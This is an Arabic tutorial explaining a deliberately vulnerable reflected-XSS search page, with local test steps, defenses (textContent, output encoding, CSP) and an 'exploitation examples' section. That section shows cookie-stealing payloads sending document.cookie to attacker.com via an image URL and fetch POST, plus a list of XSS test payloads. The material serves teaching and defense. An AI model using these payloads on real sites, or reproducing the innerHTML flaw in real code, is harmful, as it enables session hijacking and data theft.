 # 🎯 ثغرة XSS (Cross-Site Scripting) - index3.html

## 📋 نظرة عامة

هذه الصفحة تحتوي على ثغرة XSS واضحة ومباشرة. الصفحة مصممة لتوضيح كيفية عدم تطبيق ممارسات الأمان الأساسية في معالجة المدخلات.

## 🔍 شرح مفصل للكود

### 📄 هيكل HTML الأساسي
```html
<!DOCTYPE html>
<html>
<head>
    <title>Vulnerable XSS</title>
</head>
<body>
  <h1>Search Page</h1>
```

**شرح كل سطر:**
- **<!DOCTYPE html>**: إعلان نوع المستند HTML5
- **<html>**: بداية عنصر HTML الجذر
- **<head>**: قسم رأس الصفحة
- **<title>Vulnerable XSS</title>**: عنوان الصفحة
- **<body>**: بداية جسم الصفحة
- **<h1>Search Page</h1>**: عنوان رئيسي للصفحة

### 🔍 نموذج البحث
```html
<form method="GET">
  <input type="text" name="q" placeholder="Search...">
  <button type="submit">Submit</button>
</form>
```

**شرح كل سطر:**
- **<form method="GET">**: نموذج يرسل البيانات عبر طريقة GET
- **<input type="text" name="q" placeholder="Search...">**: حقل إدخال نصي
  - **type="text"**: نوع الحقل نصي
  - **name="q"**: اسم المعامل في URL
  - **placeholder="Search..."**: نص توضيحي داخل الحقل
- **<button type="submit">Submit</button>**: زر إرسال النموذج

### 🎯 عرض النتائج
```html
<p>Results for:
  <span id="result"></span>
</p>
```

**شرح كل سطر:**
- **<p>Results for:</p>**: فقرة لعرض النتائج
- **<span id="result"></span>**: عنصر span لتحديد مكان عرض النتائج
- **id="result"**: معرف فريد للعنصر

### ⚠️ الكود الضعيف (الثغرة)
```html
<script>
  const q = new URLSearchParams(window.location.search).get("q");
  if (q) {
    document.getElementById("result").innerHTML = q;
  }
</script>
```

**شرح كل سطر:**
- **<script>**: بداية كود JavaScript
- **const q = new URLSearchParams(window.location.search).get("q")**: 
  - **window.location.search**: الحصول على معاملات URL
  - **new URLSearchParams()**: إنشاء كائن لتحليل المعاملات
  - **.get("q")**: الحصول على قيمة المعامل "q"
- **if (q)**: التحقق من وجود قيمة للمعامل
- **document.getElementById("result").innerHTML = q**: إدراج القيمة مباشرة في HTML

## 🚀 كيفية التنفيذ

### 1. تشغيل الخادم المحلي
```bash
cd html/
python3 -m http.server 8000
```

### 2. فتح المتصفح
```
http://localhost:8000/index3.html
```

### 3. اختبار الثغرة

#### اختبار أساسي:
```
http://localhost:8000/index3.html?q=Hello World
```

#### اختبار XSS بسيط:
```
http://localhost:8000/index3.html?q=<script>alert('XSS')</script>
```

#### اختبار XSS متقدم:
```
http://localhost:8000/index3.html?q=<img src=x onerror=alert('XSS')>
```

## ⚠️ الثغرات في الكود

### 1. استخدام innerHTML
```javascript
// الكود الحالي - غير آمن
document.getElementById("result").innerHTML = q;

// المشكلة: يسمح بتنفيذ HTML و JavaScript
```

### 2. عدم وجود Input Validation
```javascript
// لا يوجد تحقق من نوع البيانات
// لا يوجد تنظيف للمدخلات
// لا يوجد تشفير للمخرجات
```

### 3. عدم وجود Output Encoding
```javascript
// القيم تُدرج مباشرة بدون تشفير
// يسمح بتنفيذ كود ضار
```

## 🛡️ طرق الحماية

### 1. استخدام textContent بدلاً من innerHTML
```javascript
// الكود الآمن
const q = new URLSearchParams(window.location.search).get("q");
if (q) {
    document.getElementById("result").textContent = q;
}
```

### 2. تطبيق Input Validation
```javascript
// التحقق من المدخلات
function validateInput(input) {
    // إزالة الأحرف الخطرة
    return input.replace(/[<>]/g, '');
}

const q = new URLSearchParams(window.location.search).get("q");
if (q) {
    const sanitizedQ = validateInput(q);
    document.getElementById("result").textContent = sanitizedQ;
}
```

### 3. تطبيق Output Encoding
```javascript
// تشفير المخرجات
function encodeHTML(text) {
    return text
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#x27;');
}

const q = new URLSearchParams(window.location.search).get("q");
if (q) {
    const encodedQ = encodeHTML(q);
    document.getElementById("result").innerHTML = encodedQ;
}
```

### 4. استخدام Content Security Policy (CSP)
```html
<head>
    <title>Vulnerable XSS</title>
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'self'">
</head>
```

### 5. تطبيق HttpOnly Cookies
```javascript
// في الخادم
document.cookie = "session=value; HttpOnly; Secure";
```

## 🔍 أنواع هجمات XSS

### 1. Reflected XSS (المستخدم في هذه الصفحة)
```javascript
// المهاجم يرسل رابط ضار
http://example.com/search?q=<script>alert('XSS')</script>

// الضحية ينقر على الرابط
// الكود الضار ينفذ في متصفح الضحية
```

### 2. Stored XSS
```javascript
// المهاجم يحفظ كود ضار في قاعدة البيانات
// الكود ينفذ لكل مستخدم يزور الصفحة
```

### 3. DOM-based XSS
```javascript
// الكود الضار ينفذ في DOM
// لا يمر عبر الخادم
```

## 📊 أمثلة على الاستغلال

### 1. سرقة الكوكيز
```javascript
// كود ضار لسرقة الكوكيز
<script>
var img = new Image();
img.src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```

### 2. سرقة الجلسات
```javascript
// كود ضار لسرقة الجلسة
<script>
fetch('http://attacker.com/steal', {
    method: 'POST',
    body: document.cookie
});
</script>
```

### 3. إعادة توجيه
```javascript
// كود ضار لإعادة التوجيه
<script>
window.location.href = "http://attacker.com/steal";
</script>
```

### 4. تعديل الصفحة
```javascript
// كود ضار لتعديل محتوى الصفحة
<script>
document.body.innerHTML = "<h1>Hacked!</h1>";
</script>
```

## 🔍 اكتشاف ثغرات XSS

### 1. الفحص اليدوي
```javascript
// اختبار المدخلات
const testPayloads = [
    '<script>alert("XSS")</script>',
    '<img src=x onerror=alert("XSS")>',
    '"><script>alert("XSS")</script>',
    'javascript:alert("XSS")'
];

testPayloads.forEach(payload => {
    // إدراج في حقل البحث
    console.log('Testing:', payload);
});
```

### 2. أدوات الفحص التلقائي
```bash
# استخدام OWASP ZAP
zap-cli quick-scan --self-contained http://localhost:8000

# استخدام Burp Suite
# إدراج payloads في Burp Intruder
```

### 3. مراقبة السجلات
```bash
# مراقبة سجلات الخادم
tail -f /var/log/apache2/access.log | grep -i script

# مراقبة سجلات الأخطاء
tail -f /var/log/apache2/error.log
```

## 📊 تأثير ثغرات XSS

### 1. سرقة البيانات
- الكوكيز
- الجلسات
- البيانات الشخصية
- كلمات المرور

### 2. تعديل المحتوى
- تغيير النصوص
- إضافة روابط ضارة
- تعديل النماذج

### 3. إعادة التوجيه
- توجيه لمواقع مزيفة
- سرقة بيانات تسجيل الدخول
- التصيد الاحتيالي

### 4. تنفيذ كود ضار
- تحميل برامج ضارة
- تعديل إعدادات المتصفح
- سرقة المفاتيح

## ⚖️ الجوانب القانونية

- استخدام XSS ضد مواقع أخرى غير قانوني
- استخدم فقط على أنظمة خاصة بك
- احصل على إذن مكتوب قبل الاختبار
- قد تؤدي إلى عواقب قانونية خطيرة

## 🛡️ أفضل الممارسات

### 1. للدفاع
- تطبيق Input Validation
- استخدام Output Encoding
- تطبيق Content Security Policy
- استخدام HttpOnly Cookies
- مراقبة السجلات بانتظام

### 2. للاختبار
- احصل على إذن مكتوب
- استخدم بيئة معزولة
- وثق جميع الأنشطة
- احترم حدود الاختبار

### 3. للتعلم
- فهم أنواع XSS المختلفة
- تعلم طرق الحماية
- ممارسة في بيئة آمنة
- متابعة آخر التحديثات الأمنية 
